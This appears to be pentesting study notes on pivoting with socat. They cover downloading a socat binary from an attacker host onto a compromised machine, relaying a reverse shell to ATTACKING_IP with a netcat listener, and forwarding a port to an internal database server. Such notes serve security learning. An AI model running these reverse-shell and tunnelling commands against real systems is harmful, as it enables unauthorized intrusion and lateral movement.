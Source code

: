  command: sudo python3 -m http.server 80 

 ## this is same as we use apache server to share a file 

 then,on the target use this command 

 command: curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME

 ### Method Reverse shell Relay

  1) First let's start a standard netcat listener on our attacking box 

  commad: sudo nc -lvnp 443

  2) Next, on the compromised server, use the following command to start the relay:
 
 command: ./socat tcp-l:8000 tcp:ATTACKING_IP:443 & 

 **Note: the order of the two addresses matters here. Make sure to open the listening port first, then connect back to the attacking machine.**

 ### A brief explanation of the above command:


 ==> tcp-l:8000 :
     ------------
  This is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.

 ==> tcp:ATTACKING_IP:443 :
     ----------------------
  connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.

 ==>  & :
     ---
    backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.



  ### Easy Method of Port Forwording

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:

```
  command : ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

  fork : option is used to put every connection into a new process.

  reuseaddr : option means that the port stays open after a connection is made to it.
   
  & : to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.
